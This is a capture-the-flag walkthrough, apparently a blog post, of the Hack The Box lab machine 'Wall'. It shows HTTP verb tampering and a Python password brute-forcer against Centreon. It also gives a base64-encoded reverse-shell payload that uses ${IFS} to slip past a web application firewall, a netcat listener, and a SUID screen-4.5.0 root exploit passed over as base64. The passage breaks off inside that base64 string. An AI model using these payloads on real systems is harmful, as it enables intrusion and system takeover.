 

## Summary

Wall just retired today. I had lots of fun solving it and I enjoyed trying to bypass a webapp firewall. Its IP address is `10.10.10.157` and I added it to `/etc/hosts` as `wall.htb`. Without further ado, let’s jump right in!

## Scanning

A light `nmap` scan was enough to get me started:


root@fury-battlestation:~/htb/blog/wall# nmap -sV -O wall.htb -oN scan.txt 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-07 02:49 EST
Nmap scan report for wall.htb (10.10.10.157)
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/7%OT=22%CT=1%CU=44237%PV=Y%DS=2%DC=I%G=Y%TM=5DEB59B
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=103%TI=Z%CI=I%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.09 seconds
root@fury-battlestation:~/htb/blog/wall# 



There were only 2 open ports and the SSH version didn&#8217;t look old, so I started enumerating port 80. However, the site looked like no-one has ever changed it from the default:



## Dirb & Quick Grammar Lesson

Having no entry point at all, I decided to run `dirb` and let it finish:


root@fury-battlestation:~/htb/blog/wall# dirb http://wall.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Dec  7 02:56:07 2019
URL_BASE: http://wall.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://wall.htb/ ----
+ http://wall.htb/index.html (CODE:200|SIZE:10918)                                               
+ http://wall.htb/monitoring (CODE:401|SIZE:455)                                                 
+ http://wall.htb/server-status (CODE:403|SIZE:296)                                              
                                                                                                 
-----------------
END_TIME: Sat Dec  7 03:07:27 2019
DOWNLOADED: 4612 - FOUND: 3
root@fury-battlestation:~/htb/blog/wall# 



The `/monitoring` URI looked interesting, so I tried accessing it in a browser. Unfortunately, the page required users to login:



I tried &#8216;exhaustively searching&#8217; for a valid username&password combination, but I had no success.

It&#8217;s time for the grammar lesson I mentioned &#8211; HTTP Verb tampering. Here&#8217;s a quick definition:

<blockquote>
  

    HTTP Verb Tampering is an attack that exploits vulnerabilities in HTTP verb (also known as HTTP method) authentication and access control mechanisms. Many authentication mechanisms only limit access to the most common HTTP methods, thus allowing unauthorized access to restricted resources by other HTTP methods.
  

  
  <cite><a href="https://www.imperva.com/learn/application-security/http-verb-tampering/">Imperva Learning Center</a></cite>
</blockquote>

I wrote a small python script that can test a given URL for this misconfiguration (technically, it&#8217;s not a vulnerability):

from pwn import *

context.log_level = 'ERROR'

def test_verb(host, path, verb, port=80):
	r = remote(host, port)
	r.send('{} /{}/ HTTP/1.1\r\n'.format(verb, path))
	r.send('Host: {}\r\n'.format(host))
	r.send('\r\n')
	print(r.recv())

verbs = ['GET', 'POST', 'PUT', 'HEAD', 'TRACE', 'DELETE', 'CONNECT']

for verb in verbs:
	print("")
	print("")
	print("Verb: {}".format(verb))
	print("--------------------------------------")
	test_verb('wall.htb', 'monitoring', verb)



Here&#8217;s the output I got for the first 3 methods:


root@fury-battlestation:~/htb/blog/wall# python verb_tamper.py 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.pwntools-cache/update to 'never'.
[*] You have the latest version of Pwntools (3.13.0)

Verb: GET
--------------------------------------
HTTP/1.1 401 Unauthorized
Date: Sat, 07 Dec 2019 08:30:09 GMT
Server: Apache/2.4.29 (Ubuntu)
WWW-Authenticate: Basic realm="Protected area by the admin"
Content-Length: 455
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>

This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn;t understand how to supply
the credentials required.

<address>Apache/2.4.29 (Ubuntu) Server at wall.htb Port 80</address>
</body></html>

Verb: POST
--------------------------------------
HTTP/1.1 200 OK
Date: Sat, 07 Dec 2019 08:30:10 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Wed, 03 Jul 2019 22:47:23 GMT
ETag: "9a-58ccea50ba4c6"
Accept-Ranges: bytes
Content-Length: 154
Vary: Accept-Encoding
Content-Type: text/html

<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />

Verb: PUT
--------------------------------------
HTTP/1.1 405 Method Not Allowed
Date: Sat, 07 Dec 2019 08:30:10 GMT
Server: Apache/2.4.29 (Ubuntu)
Allow: HEAD,GET,POST,OPTIONS
Content-Length: 316
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>405 Method Not Allowed</title>
</head><body>
<h1>Method Not Allowed</h1>

The requested method PUT is not allowed for the URL /monitoring/index.html.

<address>Apache/2.4.29 (Ubuntu) Server at wall.htb Port 80</address>
</body></html>



I immediately saw that the server returned `200 OK` when I tried accessing it with POST. The body of the page was very small and redirected the user to a new URI, `/centreon`:



## Exploiting centreon

A quick google search of the product version (found under the login form) revealed that the app was indeed vulnerable to a RCE vulnerability. However, I first needed to log in. The default credentials didn&#8217;t work, so I wrote a python script that uses the centreon API to bruteforce the password:

import sys
import requests
import threading
import time

api_url = "http://wall.htb/centreon/api/index.php?action=authenticate"
username = "admin"
password_list = "/usr/share/wordlists/rockyou.txt"

maxThreads = 10
numThreads = 0
STOP = False

def requestAuth(username, password):
	global api_url
	r = requests.post(api_url, data={"username": str(username), "password": str(password)})
	return r.text

def threadFunc(uername, password):
	global numThreads
	global maxThreads
	global STOP
	numThreads += 1
	print("Trying {}...".format(line))
	resp = requestAuth(username, line)
	if "Bad credentials" not in resp:
		print(resp)
		STOP = True
		print("Found it: {}".format(password))
	numThreads -= 1

f = open(password_list, "r")

line = f.readline()

while line and not STOP:
	line = line.strip()
	while numThreads >= maxThreads:
		pass
	if not STOP:
		threading.Thread(target=threadFunc, args=(username, line,)).start()
	time.sleep(0.1)
	line = f.readline()



The script found the password in about 5 seconds:


root@fury-battlestation:~/htb/blog/wall# python centreon_brute.py 
Trying 123456...
Trying 12345...
Trying 123456789...
[...]
Trying purple...
Trying angel...
{"authToken":"HvgoLd0Ro2ZnnGqVVBVc0DUkGPtVlIJaYPEYWFw17tE="}
Found it: password1
root@fury-battlestation:~/htb/blog/wall#



I used admin/password1 to log in to centreon:



I found [this exploit](https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py) on GitHub and tried to run it, but it didn&#8217;t work, so I decided to exploit the application manually. The method of exploitation was rather easy and I followed it step-by-step to see where the exploit failed. First, I went to the poll manager and created a new poll:



I used [shellgenerator.gihub.io](https://shellgenerator.github.io/) to craft a reverse shell payload. The idea was to change the &#8216;Monitoring Engine Binary&#8217; to the command(s) I wanted to be executed:<figure class="wp-block-image size-large">



However, after clicking the &#8216;Save&#8217; button I hit&#8230; a wall:



## Tearing Down the Wall

I was able to to create new polls with the default &#8216;Monitoring Engine Binary&#8217; and to change it a bit, however, as soon as I added a space in the field, I got the &#8216;Forbidden&#8217; page. This led me to believe that the application was protected by a WAF (Web Application Firewall). After a lot of trial-and-error, I was able to bypass it using the following payload:


echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4yMjMvNDQzIDA+JjEK${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash${IFS};${IFS}



I know it looks hard to understand, but I assure you it isn&#8217;t. The first thing that I noticed was that I wasn&#8217;t allowed to include spaces in the field, so I used `${IFS}`, which is interpreted as a whitespace character by `bash`. If I were to replace that character sequence with spaces, the payload would just be


echo [base64-str] | base64 -d | bash ;



The base64 encoded string decodes to


bash -i >& /dev/tcp/10.10.15.19/443 0>&1



I encoded the real payload with base64 just in case the firewall dropped all packets containing some specific phrases like &#8216;bash&#8217; or &#8216;/dev/tcp&#8217;. After saving the new poll, I had to activate it. I needed o know the poll id, so I clicked on my newly-created poll and looked at the URL address:



The `server_id` GET parameter was the info I needed to activate the poll. I used python to craft the request:


root@fury-battlestation:~/htb/blog/wall# python
Python 2.7.17 (default, Oct 19 2019, 23:36:22) 
[GCC 9.2.1 20191008] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> id = "6" # CHANGEME
>>> requests.post("http://wall.htb/centreon/include/configuration/configGenerate/xml/generateFiles.php", cookies={"PHPSESSID": "gm2rfl3gp8vc60epacqjf152fq"}, data={"poller": id, "debug": "true", "generate": "true"}).text # Also, change the PHPSESSID cookie with a valid one



What I forgot to mention is that the &#8216;Localhost?&#8217; option of the poll needed to be set to &#8216;Yes&#8217; for the exploit to work:



The python shell hung and a reverse shell connected on port 443:


root@fury-battlestation:~/htb/blog/wall# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.223] from (UNKNOWN) [10.10.10.157] 58878
bash: cannot set terminal process group (971): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$



The &#8216;user.txt&#8217; file was located in the &#8216;/home/shelby&#8217; directory, which I wasn&#8217;t able to read.

## First root, then user

Yes, you read that right. I wasn&#8217;t able to escalate to user and then to root, but I was able to gain root privilege and then read the user.txt file. During my enumeration as www-data, I discovered an interesting SUID binary:


www-data@Wall:/usr/local/centreon/www$ find / -perm -4000 2> /dev/null
find / -perm -4000 2> /dev/null
/bin/mount
/bin/ping
/bin/screen-4.5.0
/bin/fusermount
/bin/su
/bin/umount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/eject/dmcrypt-get-device
www-data@Wall:/usr/local/centreon/www$



The &#8216;/bin/screen-4.5.0&#8217; binary was new to me, so I googled it and immediately found [an exploit](https://www.exploit-db.com/exploits/41152):



The ExploitDB entry didn&#8217;t provide an actual working exploit, but I found [this GitHub repo that did](https://github.com/XiphosResearch/exploits/tree/master/screen2root):<figure class="wp-block-image size-large">



As the script was very short, I encoded it in base64 and transferred it to the remote machine via &#8216;echo [str] | base64 -d > file&#8217;:


root@fury-battlestation:~/htb/blog/wall# curl https://raw.githubusercontent.com/XiphosResearch/exploits/master/screen2root/screenroot.sh | base64 -w 0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1152  100  1152    0     0   2346      0 --:--:-- --:--:-- --:--:--  2341
IyEvYmluL2Jhc2gKIyBzY3JlZW5yb290LnNoCiMgc2V0dWlkIHNjcmVlbiB2NC41LjAgbG9jYWwgcm9vdCBleHBsb2l0CiMgYWJ1c2VzIGxkLnNvLnByZWxvYWQgb3ZlcndyaXRpbmcgdG8gZ2V0IHJvb3QuCiMgYnVnOiBodHRwczovL2xpc3RzLmdudS5vcmcvYXJjaGl2ZS9odG1sL3NjcmVlbi1kZXZlbC8yMDE3LTAxL21zZzAwMDI1Lmh0bWwKIyBIQUNLIFRIRSBQTEFORVQKIyB+IGluZm9kb3ggKDI1LzEvMjAxNykgCmVjaG8gIn4gZ251L3NjcmVlbnJvb3QgfiIKZWNobyAiWytdIEZpcnN0LCB3ZSBjcmVhdGUgb3VyIHNoZWxsIGFuZCBsaWJyYXJ5Li4uIgpjYXQgPDwgRU9GID4gL3RtcC9saWJoYXguYwojaW5jbHVkZSA8c3RkaW8uaD4KI2luY2x1ZGUgPHN5cy90eXBlcy5oPgojaW5jbHVkZSA8dW5pc3RkLmg+Cl9fYXR0cmlidXRlX18gKChfX2NvbnN0cnVjdG9yX18pKQp2b2lkIGRyb3BzaGVsbCh2b2lkKXsKICAgIGNob3duKCIvdG1wL3Jvb3RzaGVsbCIsIDAsIDApOwogICAgY2htb2QoIi90bXAvcm9vdHNoZWxsIiwgMDQ3NTUpOwogICAgdW5saW5rKCIvZXRjL2xkLnNvLnByZWxvYWQiKTsKICAgIHByaW50ZigiWytdIGRvbmUhXG4iKTsKfQpFT0YKZ2NjIC1mUElDIC1zaGFyZWQgLWxkbCAtbyAvdG1wL2xpYmhheC5zbyAvdG1wL2xpYmhheC5jCnJtIC1mIC90bXAvbGliaGF4LmMKY2F0IDw8IEVPRiA+IC90bXAvcm9vdHNoZWxsLmMKI2luY2x1ZGUgPHN0ZGlvLmg+CmludCBtYWluKHZvaWQpewogICAgc2V0dWlkKDApOwogICAgc2V0Z2lkKDApOwogICAgc2V0ZXVpZCgwKTsKICAgIHNldGVnaWQoMCk7CiAgICBleGVjdnAoIi9iaW4vc2giLCBOVUxMLCBOVUxMKTsKfQpFT0YKZ2NjIC1vIC90bXAvcm9vdHNoZWxsIC90bXAvcm9vdHNoZWxsLmMKcm0gLWYgL3RtcC9yb290c2hlbGwuYwplY2hvICJbK10gTm93IHdlIGNyZWF0ZSBvdXIgL2V0Yy9sZC5zby5wcmVsb2FkIGZpbGUuLi4iCmNkIC9ldGMKdW1hc2sgMDAwICMgYmVjYXVzZQpzY3JlZW4gLUQgLW0gLUwgbGQuc28ucHJlbG9hZCBlY2hvIC1uZSAgIlx4MGEvdG1wL2xpYmhheC5zbyIgIyBuZXdsaW5lIG5lZWRlZAplY2hvICJbK10gVHJpZ2dlcmluZy4uLiIKc2NyZWVuIC1scyAjIHNjcmVlbiBpdHNlbGYgaXMgc2V0dWlkLCBzby4uLiAKL3RtcC9yb290c2hlbGwK




ww-data@Wall:/usr/local/centreon/www$ mkdir /tmp/yakuhito; cd /tmp/yakuhito
mkdir /tmp/yakuhito; cd /tmp/yakuhito
www-data@Wall:/tmp/yakuhito$ echo IyEvYmluL2Jhc2gKIyBzY3JlZW5yb290LnNoCiMgc2V0dWlkIHNjcmVlbiB2NC41LjAgbG9jYWwgcm9vdCBleHBsb2l0CiMgYWJ1c2VzIGxkLnNvLnByZWxvYWQgb3ZlcndyaXRpbmcgdG8gZ2V0IHJvb3QuCiMgYnVnOiBodHRwczovL2xpc3RzLmdudS5vcmcvYXJjaGl2ZS9odG1sL3NjcmVlbi1kZXZlbC8yMDE3LTAxL21zZzAwMDI1Lmh0bWwKIyBIQUNLIFRIRSBQTEFORVQKIyB+IGluZm9kb3ggKDI1LzEvMjAxNykgCmVjaG8gIn4gZ251L3NjcmVlbnJvb3QgfiIKZWNobyAiWytdIEZpcnN0LCB3ZSBjcmVhdGUgb3VyIHNoZWxsIGFuZCBsaWJyYXJ5Li4uIgpjYXQgPDwgRU9GID4gL3RtcC9saWJoYXguYwojaW5jbHVkZSA8c3RkaW8uaD4KI2luY2x1ZGUgPHN5cy90eXBlcy5oPgojaW5jbHVkZSA8dW5pc3RkLmg+Cl9fYXR0cmlidXRlX18gKChfX2NvbnN0cnVjdG9yX18pKQp2b2lkIGRyb3BzaGVsbCh2b2lkKXsKICAgIGNob3duKCIvdG1wL3Jvb3RzaGVsbCIsIDAsIDApOwogICAgY2htb2QoIi90bXAvcm9vdHNoZWxsIiwgMDQ3NTUpOwogICAgdW5saW5rKCIvZXRjL2xkLnNvLnByZWxvYWQiKTsKICAgIHByaW50ZigiWytdIGRvbmUhXG4iKTsKfQpFT0YKZ2NjIC1mUElDIC1zaGFyZWQgLWxkbCAtbyAvdG1wL2xpYmhheC5zbyAvdG1wL2xpYmhheC5jCnJtIC1mIC90bXAvbGliaGF4LmMKY2F0IDw8IEVPRiA+IC90bXAvcm9vdHNoZWxsLmMKI2luY2x1ZGUgPHN0ZGlvLmg+CmludCBtYWluKHZvaWQpewogICAgc2V0dWlkKDApOwogICAgc2V0Z2lkKDApOwogICAgc2V0ZXVpZCgwKTsKICAgIHNldGVnaWQoMC